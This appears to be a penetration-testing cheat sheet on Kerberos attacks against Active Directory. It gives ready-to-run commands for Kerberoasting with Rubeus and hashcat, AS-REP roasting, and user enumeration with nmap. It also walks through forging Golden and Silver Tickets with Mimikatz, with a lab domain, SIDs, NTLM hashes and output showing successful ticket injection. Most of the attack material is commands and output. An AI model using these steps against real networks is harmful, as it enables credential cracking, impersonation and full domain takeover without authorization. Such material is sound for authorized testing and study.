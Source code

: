# Kerberos Attacks

## Relationships and Attack paths

We can use [bloodhound ](../../tools/bloodhound/)to find hidden relationships and attack paths in an Active Directory environment.

From the data collect we can escalate our privilege to the target, or use tools like [aclpwn](../../tools/bloodhound/aclpwn.md).

## Kerberoasting

The [AD Powershell ](https://github.com/samratashok/ADModule)module can be used to search for users with SPN

| `Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose`  `Get-ADUser -LdapFilter "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"` `| Format-Table Name, DistinguishedNam` |
| :--- |


Using Nmap: 

`nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'` 

Using Rubeus to gain hashes: 

`Rubeus.exe kerberoast /outfile:hashes.txt` 

 Use the hashcat -m 13100 \(Kerberos 5 TGS-REP etype 23\) to crack:  

`hashcat -a 0` `-m 13100` `SPN.hash /wordlists/rockyou.txt`

[https://newerasec.com/kerberoasting/](https://newerasec.com/kerberoasting/)

## AS-RES

Find users with pre-auth enabled using the [AD Powershell ](https://github.com/samratashok/ADModule)module :

```text
Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose

Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

To exploit run:

```text
.\Rubeus.exe asreproast
```

[https://newerasec.com/as-roast/](https://newerasec.com/as-roast/)

## Golden Ticket

Once you gained the krbtgt hash \(from dcsync or DC compromise\)T

The Mimikatz kerberos::golden module handles Golden Tickets

We need the following parameters:  

* /domain - name of the domain
* /sid - the sid of the domain \(can be obtain from 'whoami /user' , remember to remove the RID\)
* /rc4 - the NTLM hash of krbtgt
* /user - the user you want to create the new TGT ticket for
* /id - the RIF of that user you looking to create ticket for
* /ptt - \(Optional\) inject the new ticket into the current session, if not applied the ticket will be saved to a file

```text
mimikatz # kerberos::golden /domain:eth.lab /sid:S-1-5-21-98033113-2199257571-2188946577 /rc4:88a4507aae31297a2df7921b1430d781 /user:Administrator /id:500  /ptt
User      : Administrator
Domain    : eth.lab (ETH)
SID       : S-1-5-21-98033113-2199257571-2188946577
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 88a4507aae31297a2df7921b1430d781 - rc4_hmac_nt
Lifetime  : 06/04/2020 14:05:45 ; 04/04/2030 14:05:45 ; 04/04/2030 14:05:45
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ eth.lab' successfully submitted for current session 
```

## Silver Ticket

use the 'kerberos::golden' module to forge TGS, we will need to pass the following parameters:

* /domain: The FDQN
* /sid: The SID \(Security Identifier\) of the Domain \(whoami /user\)
* /user: Target Account/Computer to Impersonate
* /id: RID of the account you will be impersonating
* /ptt: Optional \( will automatically inject the ticket into the current session\)
* /rc4: NTLM Hash of User Password/Computer Password
* /service: the service we want to access

**Example:**

```text
mimikatz # kerberos::golden /sid:S-1-5-21-98033113-2199257571-2188946577-500 /domain:eth.lab /ptt /id:500 /target:WIN-EU4DLP9KRRC.eth.lab /service:cifs /rc4:0c0d4252608be9131c2826a6feaf94b8 /user:Administrator
User      : Administrator
Domain    : eth.lab (ETH)
SID       : S-1-5-21-98033113-2199257571-2188946577-500
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 0c0d4252608be9131c2826a6feaf94b8 - rc4_hmac_nt
Service   : cifs
Target    : WIN-EU4DLP9KRRC.eth.lab
Lifetime  : 03/04/2020 17:00:01 ; 01/04/2030 17:00:01 ; 01/04/2030 17:00:01
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ eth.lab' successfully submitted for current session
```


